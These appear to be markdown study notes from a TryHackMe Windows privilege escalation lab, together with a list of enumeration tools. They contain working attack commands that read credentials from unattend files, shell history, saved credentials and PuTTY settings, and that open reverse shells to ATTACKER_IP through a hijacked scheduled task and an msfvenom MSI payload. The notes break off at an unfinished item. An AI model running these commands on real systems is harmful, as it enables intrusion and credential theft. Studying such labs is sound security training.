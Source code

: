     * SNMP check on linux: <https://www.kali.org/tools/snmpcheck/>

```cmd
git clone https://gitlab.com/kalilinux/packages/snmpcheck.git
cd snmpcheck/
gem install snmp
chmod +x snmpcheck-1.9.rb
```

* Other windows tools
  * Process hacker: <https://processhacker.sourceforge.io/>
  * Sysinternals: <https://learn.microsoft.com/en-us/sysinternals/downloads/>
    * Process Explorer: shows processes w/ open files and registgry keys
    * Process Monitor: file system, processes and registry
    * PsList: process info
    * PsLoggedOn: logged0in users
  * GhostPack Seatbelt: <https://github.com/GhostPack/Seatbelt>

## Windows Privilege Escalation

* Link: <https://tryhackme.com/room/windowsprivesc20>
* Windows users:
  * Administrators or Standard Users
  * SYSTEM / LocalSystem
  * Local Service
  * Network Service
* Unattended Windows Installation locations:
  * C:\Unattend.xml
  * C:\Windows\Panther\Unattend.xml
  * C:\Windows\Panther\Unattend\Unattend.xml
  * C:\Windows\system32\sysprep.inf
  * C:\Windows\system32\sysprep\sysprep.xml
* Powershel History: `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
* Saved Windows Credentials: `cmdkey /list` or `runas /savecred /user:admin cmd.exe`
* IIS Config: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
* PuTTY Credentials: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
* Scheduled Tasks: `schtasks /query /tn vulntask /fo list /v`
  * Run as: `icacls c:\tasks\schtask.bat`
  * Mofify bat file to spawn reverse shell: `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`
  * Open shell on local machine: `nc -lvp 4444`
  * Run task to spawn shell: `schtasks /run /tn vulntask`
* AlwaysInstallElevated
  * Check: `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` or `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
  * Initiate reverse shell: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.14.193 LPORT=LOCAL_PORT -f msi -o malicious.msi`
  * Run installer to open shell: `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
* Service misconfigurations
  * Get service info: `sc qc SERVICE_NAME`
    * EG: `sc qc WindowsScheduler`
  * All services stored here: `HKLM\SYSTEM\CurrentControlSet\Services\`
  * Check permissions of executable associated with service (WService.exe in this case): `icacls C:\PROGRA~2\SYSTEM~1\WService.exe`
* Msfvenom exe-service payload:
